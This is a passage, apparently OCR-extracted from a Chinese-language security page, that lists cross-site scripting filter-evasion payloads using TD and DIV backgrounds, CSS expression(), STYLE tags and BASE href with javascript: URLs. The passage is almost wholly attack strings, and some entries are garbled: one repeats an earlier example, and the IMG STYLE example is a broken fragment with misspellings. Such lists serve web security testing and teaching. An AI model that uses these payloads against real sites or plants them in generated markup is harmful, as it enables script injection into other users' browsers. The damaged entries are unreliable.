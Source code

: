 - **TD**，示例如下：

  ```
  <TABLE><TD BACKGROUND=”javascript:alert(‘XSS’)”>
  ```

- **DIV background-image**，示例如下：

  ```
  <DIV STYLE=”background-image: url(javascript:alert(‘XSS’))”>
  ```

- **DIV background-image后加上额外字符(1-32&34&39&160&8192-8&13&12288&65279)**，示例如下：

  ```
  <DIV STYLE=”background-image: url(javascript:alert(‘XSS’))”>
  ```

- **DIV expression**，示例如下：

  ```
  <DIV STYLE=”width: expression_r(alert(‘XSS’));”>
  ```

- **STYLE属性分拆表达**，示例如下：

  ```
  <IMG STYLE=”xss:expression_r(alert(‘XSS’))”>
  ```

- **匿名STYLE(组成:开角号和一个字母开头)**，示例如下：

  ```
  <XSS STYLE=”xss:expression_r(alert(‘XSS’))”>
  ```

- **STYLE background-image**，示例如下：

  ```
  <STYLE>.XSS{background-image:url(“javascript:alert(‘XSS’)”);}</STYLE><A CLASS=XSS></A>
  ```

- **IMG STYLE方式**，示例如下：

  ```
    exppression(alert(“XSS”))’>
  ```

- **STYLE background**，示例如下：

  ```
  <STYLE><STYLE type=”text/css”>BODY{background:url(“javascript:alert(‘XSS’)”)}</STYLE>
  ```

- **BASE**，示例如下：

  ```
  <BASE HREF=”javascript:alert(‘XSS’);//”>
  ```



# 三、自动化XSS
